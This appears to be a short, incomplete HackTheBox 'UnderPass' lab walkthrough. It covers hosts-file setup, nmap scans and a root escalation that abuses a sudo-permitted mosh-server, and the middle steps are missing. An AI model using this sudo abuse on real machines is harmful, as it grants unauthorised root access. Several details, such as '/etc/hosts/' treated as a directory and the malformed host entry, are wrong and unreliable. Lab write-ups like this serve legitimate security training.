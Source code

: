 # UnderPass-HTB-Walkthrough
# Port Scanning
for my HTB machine I was using the IP Address 10.10.11.48 , before doing a nmap scan you will need to add the IP and host in /etc/hosts/ directory and save it like this 10.10.11.48.underpass.htb

command to acccess /etc/hosts:

- sudo nano /etc/hosts/
- sudo cat /etc/hosts/ (This is good to always double check your work before moving on)

Now, moving on to the nmap scaning to find open ports:
- nmap -sV -Pn 10.10.11.48

damn this didnt give me anything good, so i run a TCP and UPD scan to see all the other open ports:
- sudo nmap -sU underpass.htb -Pn










# Root Flag
using the command sudo -l this help me list the current user privileges level , I find that the mosh-server doesnot need root privilege and I am able to go inside this directory.

using these command one by one will give you access to mosh-server:

- sudo /usr/bin/mosh-server new -p 61113
- MOSH_KEY=<Key> mosh-client 127.0.0.1 61113
